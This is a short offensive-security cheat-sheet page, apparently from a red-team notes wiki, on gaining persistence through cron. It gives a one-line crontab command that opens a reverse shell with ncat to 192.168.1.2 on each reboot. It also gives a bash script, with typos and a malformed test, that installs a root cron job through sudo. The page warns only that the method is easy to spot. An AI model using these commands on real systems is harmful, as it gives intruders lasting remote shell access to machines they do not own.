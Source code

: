 # ⚠ Crontab Reverse Shell (Not OPSEC)

{% hint style="danger" %}
cron jobs are obviously visible in crontab, so this method is not recommended.
{% endhint %}

```
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

### Script:

```
#!/bin/bash

if [ $1 -z ] 
then
        echo "$0 <binary file>"
        echo "NOTE: The binary ile shoud be in user's home directory e.g /home/user/binary_file"
        exit 1
fi

echo "Eneter the time in the form of m(minute) h(hour) dm(day of month) m(month) dw(day of week)"
echo "NOTE: If u want to put 0 for any input put * instead of 0"
read val

HOME=$HOME
#echo "Enter the username for which u want to create cron job"
#read user

echo "[+] Creating cron job..."
sleep 0.2
f=$1
cron_file=${f%.*}
#echo $cron_file
#echo ${f%.*}
echo  "$val root $HOME/$1" | sudo tee /etc/cron.d/$cron_file
```

\
